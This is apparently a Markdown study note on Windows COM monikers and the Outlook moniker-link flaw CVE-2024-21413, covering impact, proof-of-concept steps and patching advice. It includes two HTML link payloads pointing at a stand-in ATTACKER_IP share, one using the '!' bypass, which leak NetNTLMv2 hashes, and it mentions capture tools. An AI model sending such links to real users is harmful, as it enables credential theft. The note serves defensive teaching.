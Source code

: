 # Exploitation Basics

## Moniker
A **moniker** in Windows is a COM (Component Object Model) object reference that allows applications to dynamically locate and bind to other objects.  
- Acts like a pointer or "name" for COM objects.  
- Used in technologies such as **OLE (Object Linking and Embedding)**, **ActiveX**, and scripting environments.  
- Attackers can abuse monikers to execute arbitrary code when a document (e.g., a Word file) is opened.

---

## Link
Links in documents (like **OLE objects** or **embedded hyperlinks**) can be exploited:  
- Malicious documents may include links that, when clicked, automatically execute commands.  
- Outlook can render emails as HTML and parse links such as `http://` and `https://`.  
- It can also handle `file://` **Moniker Links**, which can point to files or resources on remote systems.  
- Normally, Outlook’s **Protected View** prompts users before opening external applications, blocking malicious actions.  

**Example of a basic Moniker Link:**
```html
<a href="file://ATTACKER_IP/test">Click me</a>
```

By modifying the link to include the `!` character, attackers can bypass Outlook’s Protected View:
```html
<a href="file://ATTACKER_IP/test!exploit">Click me</a>
```
Even if the share does not exist, Outlook will attempt an SMB authentication, leaking the victim’s **Windows NetNTLMv2 hash**.

---

## CVE-2024-21413 (Moniker Link)
- **Discovered by:** Haifei Li, Check Point Research  
- **Announced:** February 13th, 2024  
- **Type:** Remote Code Execution (RCE) & NTLM Credential Leak  

### Description
This vulnerability allows attackers to bypass Outlook’s security mechanisms when handling **Moniker Links**.  
When exploited, Outlook may send NTLM credentials to an attacker-controlled server, even if the malicious link is clicked in **Protected View**.

### Impact
- Theft of **NTLM hashes** and user credentials.  
- Potential for **remote code execution** due to COM object abuse.  
- Increased risk of **phishing and lateral movement** in corporate environments.  

### Proof of Concept (PoC) Overview
> **Note:** This is a high-level summary of the PoC; not executable instructions.

- Attacker crafts an email with a malicious Moniker Link.  
- Victim opens or previews the email in Outlook.  
- Outlook attempts to load a file via `file://` using SMB.  
- This triggers an **authentication attempt**, leaking the victim’s **NetNTLMv2 hash**.  
- An attacker could capture and attempt to crack these hashes with tools like *Responder* or *Impacket*.  

---

## Remediation
Microsoft released official patches for this vulnerability in **February 2024 Patch Tuesday**.  
Recommended actions:
- Apply the latest **Microsoft security updates** via Windows Update or the [Microsoft Update Catalog](https://www.catalog.update.microsoft.com/).  
- Disable automatic link preview in Outlook where possible.  
- Block outbound **SMB traffic** at the firewall, if feasible.  
- Educate users not to click unknown or suspicious links in emails.  
- Encourage reporting of suspicious emails to the security team.  

---

## References
- [Microsoft Security Response – CVE-2024-21413](https://msrc.microsoft.com/)  
- [Check Point Research – Haifei Li’s Discovery](https://research.checkpoint.com/)
